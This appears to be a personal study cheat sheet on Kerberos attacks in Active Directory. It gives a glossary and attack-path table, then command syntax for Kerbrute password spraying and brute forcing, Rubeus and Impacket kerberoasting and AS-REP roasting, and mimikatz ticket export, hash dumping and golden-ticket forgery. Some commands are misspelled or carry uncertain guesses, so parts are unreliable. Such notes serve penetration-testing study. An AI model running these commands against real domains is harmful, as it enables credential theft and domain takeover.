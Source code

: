 #### Common Terms
- **Ticket Granting Ticket(TGT)** = authentication ticket used to request service tickets from the TGS for specific resources
- **Ticket Granting Service(TGS)** = Takes the TGT and returns a ticket to a machine
- **Key Distribution Center(KDC)** = Serivce for issues TGTs and service tickets
- **Authentication Service(AS)** = Issues TGTs to be used by the TGS in the domain
- **Service Principal Name(SPN)** = Identifier for a service instance to associate a service with a domain service account so they may authenticate to access domain resources.
- **KDC Long Term Secret Key(KDC LT Key)** = The KDC key is based on the KRBTGT service account.  It is used to encrypt the TGT and sign the PAC.
- **Client Long Term Secret Key (Client LT Key)** = The client key is based on the computer or service account.  It is used to check the encrypted timestamp and encrypt the session key.
- **Service Long Term Secret Key (Service LT Key)** = Service key is based on the service account.  It is used to encrypt the service portion of the service ticket and sing the PAC.
- **Session Key** = Issued by the KDC when a TGT is ussed.  User provides the Session Key + TGT to the KDC when requesting a service ticket
- **Privilege Attribute Certificate(PAC)** = The PAC holds all of the user's relevant information.  PAC + TGT to the KDC to be signed by the Target LT key and the KDC LT Key in order to validate the user


 | Attack Paths | Perms Required |
|    :---:	| :---: |
|Kerbrute Enum | No Domain Access |
| Pass the Ticket | Access to any AD user|
|Kerberoasting | Access as any user|
| AS-REP Roasting | Access as any user|
|Golden Ticket | Domain Admin |
|Silver Ticket | Service hash |
|Skeleton Key | Domain admin|

#### Kerbrute
Kerbrute - Bruteforce usernames or enumerate them

```
Remember to add the domain to hosts file!!

Userenum:
kerbrute --dc IP -d DOMAIN.local userenum /path/to/wordlist

Pass spray:
kerbrute --dc IP -d DOMAIN.local users.txt Password123

Brute force a single user:
kerbrute --dc IP -d DOMAIN.local bruteuser /path/to/passwords username

True Bruteforce;
kerbrute --dc IP -d DOMAIN.local userpasscombo.txt

userpasscombo = needs a combined list in the format username:password
```

#### Rubeus 
Rubeus - Gather tickets that are being transfered to the KDC.  Bruteforce user accounts.  Ticket forgery. Ticket management.

```
Local tool

Syntax to gather tickets:
rebeus.exe harvest /interval:30

Syntax to bruteforce local users:
Rubeus.exe brute /password:Password1 /noticket

Syntax for roasting:
Rubeus.exe kerberoast

AS-REP Roasting:
Rubeus.exe asreproast /format:hashcat

```

#### Impacket
Impacket - Tool suite for performing backflips

```
Kerberoast syntax:
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.70.60 -request

AS-REP Roast:
python GetNPUsers.py domain/ -usersfile users.txt -format hashcat -outputfile out.cat -no-pass

SECRETS DUMP OP AS FUCK

```

#### mimikatz
Mimikatz - pump and dump tool

```
mimikatz cheatsheet

priv check:
privilege::debug

export all tickets:
sekurlsa::tickets /export

Pass a ticket:
kerberos::ptt <ticketfile>

Verify with:
klist


Get hash from memory:
lsadump::lsa /inject /name:<user>


GOLDEN ticket:
kerbos::golden /user:Administrator /domain:controller.local /sid:<sid> /krbtgt:<hash> /id:<id>

sid=domain controller?
krbtgt=hash for user
id=500? lmao idk





```